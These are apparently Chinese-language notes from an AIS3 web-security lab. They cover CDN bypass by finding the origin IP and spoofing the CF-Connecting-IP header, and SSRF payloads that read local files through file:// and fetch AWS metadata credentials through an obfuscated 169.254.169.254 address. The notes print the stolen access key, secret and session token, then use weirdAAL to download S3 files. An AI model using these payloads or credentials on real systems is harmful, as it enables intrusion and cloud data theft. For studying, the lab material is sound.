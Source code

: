 # 8/2 morning WEB security

## CDN繞過

題目 [https://realme.0x61697333.cf](https://realme.0x61697333.cf)

要繞過CDN 先用[virustotal](https://www.virustotal.com/zh-tw/)掃一下domain

結果:
```
2018-08-01 104.28.10.231
2018-08-01 104.28.11.231
2018-07-31 52.194.38.175
```
前兩個是CDN

52.194.38.175 是server位置

在/etc/hosts新增

`52.194.38.175  realme.0x61697333.cf`

(讓請求不要走CDN)

> curl -H "CF-Connecting-IP: 127.0.0.1" http://realme.0x61697333.cf/

## SSRF

## 01
[SSRF 01](http://ssrf01.0x61697333.cf/index.php)

提示是ubuntu, nginx 

先看設定檔預設路徑

丟輸入匡

> file:///etc/nginx/sites-enabled/default

> file:///meow/ais3/index.php

## 10
[SSRF 11](http://ssrf01.0x61697333.cf/index.php)

ip有基本檢查 要繞一下

在輸入匡丟:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials

噴:`MagicAIS3`

輸入匡:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials/MagicAIS3

把資料加到[weirdAAL](https://github.com/carnal0wnage/weirdAAL)設定檔

```
[default]
aws_access_key_id = ASIAU2Z4MLXCGNVN256B
aws_secret_access_key = dGtFxTt/kdPdS0k6UMoaxMO9VMjw0Pk4CQLxnM/M
aws_session_token = FQoGZXIvYXdzEC4aDFOpSAIZQ01cgHHwrCLBAx8DBVXgbglo6WvkIToFh71yqrXXN56Hh7dyMIzGzfbyZ0c3NO6f/RVWVlUXM3zSIEdLuP    PEVgfuy0KL85cHV1hfP62v5kFW4SIhwaGyJjhEh5nJsV8AUlpgUfeZljPexUA5F0viz1p0lg7bPTR9CQZYSZsNP3PLkudYXTGG/Lf4u40o2oElwQsbG1R6Zf2A7nxb    3xj63u2g4fhJV+pqBkhLLSOOrEiQ2Y7B+7yKSWtf0fSWZtwZgbqsG8ClzflMWejzu5RbcDXHsoHiILgE9tZoWqRU6zKxKOrczk03LAbIuVDfpj8oCjIDq0uU9/BFMh    qTUKXjzNslGeiYgsqVyhwvKexfLYpjHWaGs8wuYFrI/R2NKn08oN6qIph/bj2jeEISdxjih1oHmDDLMOlUEhHewLVdqDM9zpJ9pjjMZWOepsOoAbwpDCu8mMfHvS7N    q2zhsmQ1dueVxP48Ps1sQKhDa83sx9esMxfrYvYnXY34h1csxU4kCdgoGcqR/soKTOHXnvcj9i5ZZ0Gw+JUtL7yezt0l6UVhdZtu5UBbhn848LrkhFlXo4sqyHdxF4    y+kkka26WsmHBqOny0sc29SJAhKK2KitsF
```

terminal:

> python3 weirdAAL.py -m s3_list_buckets -t yoo

> python3 weirdAAL.py -m s3_list_bucket_contents -a "ais3-flag-box" -t yolo

> python3 weirdAAL.py -m s3_download_file -a 'ais3-flag-box','ais3-flag.txt' -t yolo
